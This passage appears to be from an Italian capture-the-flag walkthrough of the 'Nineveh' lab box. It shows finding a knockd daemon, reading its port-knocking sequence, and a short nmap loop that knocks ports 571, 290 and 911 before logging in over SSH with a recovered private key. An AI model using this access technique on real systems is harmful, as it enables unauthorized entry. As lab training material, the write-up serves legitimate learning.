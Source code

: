 Se ci ricordiamo bene nello scan di nmap non risultata aperta la porta SSH quindi come mai abbiamo delle chiavi RSA per connetterci ?

Proviamo ad esaminare i processi con `ps auxww

- "ps": è il comando per elencare i processi.
- "a": mostra i processi di tutti gli utenti, inclusi quelli degli utenti di sistema.
- "u": visualizza un elenco esteso che include informazioni sul proprietario del processo.
- "x": elenca anche i processi che non sono associati a un terminale.
- "ww": assicura che la larghezza delle colonne non venga limitata e che i dati vengano visualizzati in modo completo.

Notiamo questo processo

```bash
www-data@nineveh:/var/www/ssl/secure_notes$ ps auxww 

...[snip]...
root 1301  0.9  0.2   8756  2224 ?Ss   06:03   0:35 /usr/sbin/knockd -d -i ens160
...[snip]...

```

Cercando su google scopriamo che knockd è un demone per il port knocking, che imposterà determinate regole del firewall quando determinate porte vengono colpite in ordine. Possiamo trovare il file di configurazione in /etc/knockd.conf

```bash
www-data@nineveh:/var/www/ssl/secure_notes$ cat /etc/knockd.conf 
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

```

il file ci dice che che possiamo aprire SSH colpendo 571, 290 e poi 911 con syns, tutto entro 5 secondi, e così facendo, aggiungerà una regola per consentire al mio IP di raggiungere la porta 22.

scriviamo un semplice script dove andremo a dire ad [Nmap] di "bussare " in sequenza alle porte 571,290,911 ed infine ad di aprire una connessione SSH

```bash
for i in 571, 290, 911; do|
nmap -p ${i} --max-retries 0 -Pn 10.10.10.43
done

ssh -i nineveh.priv amrois@10.10.10.43|
```
